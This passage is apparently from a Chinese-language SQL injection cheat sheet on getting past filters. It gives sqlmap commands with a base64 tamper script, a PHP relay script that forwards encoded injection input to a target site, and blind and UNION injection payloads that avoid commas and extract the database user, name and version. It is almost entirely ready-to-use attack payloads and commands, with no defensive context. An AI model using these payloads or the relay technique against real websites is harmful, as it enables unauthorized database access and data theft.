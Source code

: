 ```php
}
```

## Base64变形注入

```http
http://xxx.com/?id=MQ==		只加密参数
http://xxx.com/?aWQ9MQ==	连参数名一起加密了
```

**只加密参数，用sqlmap的脚本就行**

```bash
sqlmap -u http://xxx.com/?id=MQ== --tamper base64encode.py --dbs
```

**参数名也加密了，用中转注入**

```php
//trans_sqli.php
<?php
	$id=base64_encode("id=".$_GET['id']);
	echo file_get_contents("http://xxx.com/sqli.php?{$id}");	//sqli.php是原网页
?>
```

```bash
sqlmap-u "http://127.0.0.1/trans_sqli.php?id=12" -v3 --dbs
```

## 过滤了逗号怎么办

**盲注的时候**

```sql
LIMIT M OFFSET N	
--这里的 M 是最大回显限度，N是偏移量
--与limit N,M 有相同效果

' and ascii(substr((select database()),1,1))=xxx#
--可变为
' and ascii(substr((select database())from 1 for 1))=xxx#

```

**union联合查询注入时**

```sql
union select 1,2,3
union select * from ((select 1)a JOIN (select 2)b JOIN (select 3)c)%23

union select * from ((select 1)a JOIN (select 2)b JOIN (select CONCAT_WS(CHAR(32,58,32),user(),database(),version()))c)%23
```

## Between And代替 ">" 尖括号
